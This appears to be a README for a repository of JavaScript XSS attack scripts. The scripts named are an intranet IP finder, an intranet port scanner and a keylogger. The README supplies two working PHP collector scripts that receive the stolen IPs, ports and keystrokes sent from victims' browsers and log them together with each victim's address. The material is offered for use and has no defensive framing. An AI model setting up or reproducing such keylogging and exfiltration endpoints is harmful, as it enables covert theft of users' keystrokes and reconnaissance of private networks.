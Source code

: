 Js_attack - some .js with xss to attack
===================

Usage example
------------------

1.Get-Intranet-ip.js & Scan-Intranet-port.js: 
you can make a server to accept ip and port:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    file_put_contents('./webrtc_ip.txt', $ip.' | '.$port.' | '.$time.' | from '.$from."\r\n", FILE_APPEND);
?>
```

2.keylogger.js
you can make a server to accept ip and port:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");

if(!empty($_GET['c'])) {
	$key = $_GET['c']; 
	file_put_contents('./keylogger.txt', $key.' | '.$time.' | '.$from."\r\n", FILE_APPEND);
}
?>

```

Credit
------
Repo is based on the following projects:

- https://github.com/diafygi/webrtc-ips



